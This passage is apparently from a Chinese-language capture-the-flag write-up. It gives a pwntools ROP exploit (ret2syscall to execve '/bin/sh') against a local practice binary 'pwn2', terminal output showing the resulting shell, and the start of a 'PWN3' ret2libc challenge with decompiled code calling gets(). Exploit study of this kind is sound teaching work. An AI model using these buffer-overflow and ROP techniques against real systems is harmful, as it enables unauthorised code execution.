 ```
pop eip (从堆栈中持续拿数据)

"/bin/sh" 字符串：0x90be408
```

PWN 代码

```python
#!/usr/bin/env python 
from pwn import *
sh = process('./pwn2')
pop_eax_ret = 0x080bb196
pop_ecx_ebx_ret = 0x0806eb91 
pop_edx_ret = 0x0806eb6a 
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_ecx_ebx_ret, 0,binsh, pop_edx_ret,0, int_0x80])
sh.sendline(payload)
sh.interactive()
```

```
:~$ python pwn2.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './pwn2': pid 3489
[*] Switching to interactive mode
This time, no system() and NO SHELLCODE!!!
What do you plan to do?
$ ls
\          exp1.py   pwn1      testpwn1.py    ??????  ??????
checksec      gujian    pwn2      testshellcode  ??????  ??????
checksec.sh      level1    pwn2.py   ??????         ??????
examples.desktop  level1.c  pwntools  ?????????      ??????
$  

```



### PWN3

```python
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}


text:08048666                 call    _setvbuf
.text:0804866B                 mov     dword ptr [esp], offset s ; "RET2LIBC >_<"
.text:08048672                 call    _puts
.text:08048677                 lea     eax, [esp+1Ch]
.text:0804867B                 mov     [esp], eax      ; s
.text:0804867E                 call    _gets
.text:08048683                 mov     eax, 0
.text:08048688                 leave
.text:08048689                 retn
```
